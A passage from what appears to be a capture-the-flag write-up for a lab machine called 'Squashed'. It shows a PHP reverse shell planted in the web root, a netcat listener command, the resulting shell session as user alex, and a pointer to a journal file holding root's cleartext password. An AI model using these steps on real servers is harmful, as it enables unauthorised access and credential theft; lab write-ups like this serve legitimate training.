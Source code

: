 In `.htaccess`, I saw that:
```console
$ cat .htaccess                                                                            
AddType application/x-httpd-php .htm .html
```
It means that this web server can run **PHP**.

So I grabbed a PHP reverse shell from [revshells.com](https://revshells.com/), and copied it to `html/shell.php`.

Next, I setup my netcat listener
```console
$ nc -lnvp 9999
```

Then I navigate to `http://squashed.htb/shell.php`, and I got a shell!

```console
$ nc -lnvp 9999                                                                            
listening on [any] 9999 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.191] 44896
Linux squashed.htb 5.4.0-131-generic #147-Ubuntu SMP Fri Oct 14 17:07:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 06:00:44 up  2:57,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               03:03    2:57m 15.82s  0.05s /usr/libexec/gnome-session-binary --systemd --session=gnome
uid=2017(alex) gid=2017(alex) groups=2017(alex)
sh: 0: can't access tty; job control turned off
$ 
$ bash -i
alex@squashed:~$ 
```

### We are in as `alex@squashed`!

The **user flag** is at `/home/alex/user.txt`.

I chose to stabilize the shell by generating SSH keys for `alex`. You can learn how to do it [here](../Tips%26Tricks/Generating%20SSH%20Keys.md)

You'll definitely regret if you came here to find for the **root flag**. Try finding it yourself before you continue to read.

.

.

.

The credentials of `root` is actually shown in cleartext in `/home/ross/.local/share/tracker/data/tracker-store.journal`. You just need some patient to find it out.

![squashed-root-pw](../Images/squashed-root-pw.png)
